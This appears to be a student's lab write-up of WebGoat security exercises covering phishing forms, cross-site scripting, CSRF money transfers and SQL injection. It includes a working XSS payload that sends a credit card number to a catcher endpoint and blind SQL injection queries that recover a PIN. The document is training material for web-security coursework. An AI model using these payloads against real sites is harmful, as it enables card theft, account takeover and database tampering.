 ## Part 1:
In this part I created a simple HTML form that accepts the user's username and password. We are assuming here that the 
user trusts this form and enters the credentials. This works because with the information from user and cross-site 
scripting we will be able to bypass the need for a cookie to log in, and so we basically have the credentials to 
infiltrate the user's account.

## Part 2:
In this part I realized that the pin field of the form is vulnerable to script inputs. So I injected some JavaScript in 
the pin parameter such that it will take the card number object from the DOM and sends its value to the malicious 
endpoint. The non-encoded URL is as follows:
```$xslt
<SCRIPT>
	document.form.input2.value=111;
	document.form.buy.onclick=function(){
		XSSImage=new Image;
		XSSImage.src='http://localhost:8090/WebGoat/catcher?PROPERTY=yes&stolenCreditCard=document.form.input1.value';
	}
	document.getElementById('message').innerHTML='';
</SCRIPT>
```

## Part 3:
This part simply creates an image content using the message field, which does not filter out HTML tags. So I added a 
malicious `img` tag, and made the source the malicious endpoint which transfers money from the user to the attacker.

## Part 4:
This part implements something similar to the previous part, with the difference that this time we have to confirm 
the money transfer. So now we have 2 steps. That is why I am using the `onload` attribute of the iframe tag, so that 
the completion of the transfer request invokes the confirmation of the transfer.

## Part 5:
This part implements a similar process to part 4, with the twist of adding a random token that the attacker has to 
fetch before the last step of the transfer. This token is actually hidden in the html of the request page. Extracting 
it from the DOM then allowed me to send this over to the malicious endpoint to complete the transfer.

## Part 6:
This part was a very simple SQL injection. I added a statement that is always true in the `SELECT` query so that the 
information for all of the users gets displayed.

## Part 7:
In this part, the webpage is also vulnerable to SQL injections. So after changing one user's salary to a higher value 
through a simple `UPDATE` query, I added a trigger for any new users made to have their emails updated to the ECE568.

## Part 8:
When 2 true things are in an `AND` statement, the outcome is true, and if only one is wrong, the outcome is false. So I
used the verify message as the outcome of an `AND` statement to find the numeric boundaries of the pin. I used the 
following query to find the 2 limits of 4861 and 4863. Then I concluded that the pin is 4862.
```SQL
101 AND (SELECT pin FROM credit WHERE cc_number='1234123412341234') > 4861;
101 AND (SELECT pin FROM credit WHERE cc_number='1234123412341234') > 4863;
```